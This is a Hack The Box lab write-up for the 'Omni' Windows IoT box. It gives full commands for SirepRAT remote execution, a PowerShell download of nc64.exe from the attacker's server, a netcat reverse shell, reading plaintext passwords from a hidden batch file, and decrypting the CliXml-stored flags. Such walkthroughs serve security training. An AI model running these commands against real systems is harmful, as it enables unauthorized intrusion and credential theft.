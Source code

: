 ## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the **upnp** service. **ARCserve** also might give you a hint as it looks to be an IoT related storage solution.  


If you try to browse to the **8080** port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called **SirepRAT**. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.  


However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like **NetCat** perhaps?  


It’s important to mention that the proper version of **nc.exe** is needed for this to work. I used **nc64.exe** acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  


After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the **SirepRAT.py** script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run **cmd.exe** to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the **Temp** directory.


You’ll see a log in your Python terminal to confirm it was downloaded.


Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the **SirepRAT.py** script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  


From here you can look around all you want. However, an important file to note is located in **C:\Program Files\WindowsPowerShell\Modules\PackageManagement**. This file is hidden so use **dir /ah** to see it. You’ll see an **r.bat** file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)  


Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)  


From here, you’ll see that under **Processes** menu, you have the ability to execute commands. You can use that same **nc64.exe** we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)  


After some more Googling, we can decrypt these using Powershell.


After opening a powershell prompt, we can use the following command on both **root.txt** and **user.txt** under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
